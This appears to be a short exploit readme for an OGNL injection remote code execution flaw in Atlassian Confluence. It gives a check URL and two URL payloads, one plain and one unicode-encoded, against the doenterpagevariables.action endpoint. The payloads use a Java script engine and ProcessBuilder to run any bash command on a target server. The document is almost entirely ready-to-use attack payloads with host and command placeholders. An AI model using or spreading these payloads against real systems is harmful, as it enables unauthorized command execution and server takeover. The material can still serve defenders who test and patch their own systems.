 ### check for vulnerability
```
https://<rhost>/pages/doenterpagevariables.action?queryString=aaaa\u0027%2b#{3*333}%2b\u0027bbb  
```

### exploit
```
https://<rhost>/pages/doenterpagevariables.action?queryString=aaa'+ #{ ""["class"].forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("var x=new java.lang.ProcessBuilder;x.command(['/bin/bash','-c','<command>']);x.start()"); } +  
```

### exploit encoded
```
https://<rhost>/pages/doenterpagevariables.action?queryString=aaa\u0027%2b#{\u0022\u0022[\u0022class\u0022].forName(\u0022javax.script.ScriptEngineManager\u0022).newInstance().getEngineByName(\u0022js\u0022).eval(\u0022var x=new java.lang.ProcessBuilder;x.command([\u0027/bin/bash\u0027,\u0027-c\u0027,\u0027'.<command>.'\u0027]);x.start()\u0022)}%2b\u0027  
```

### References:
https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md  
https://www.exploit-db.com/exploits/50243  

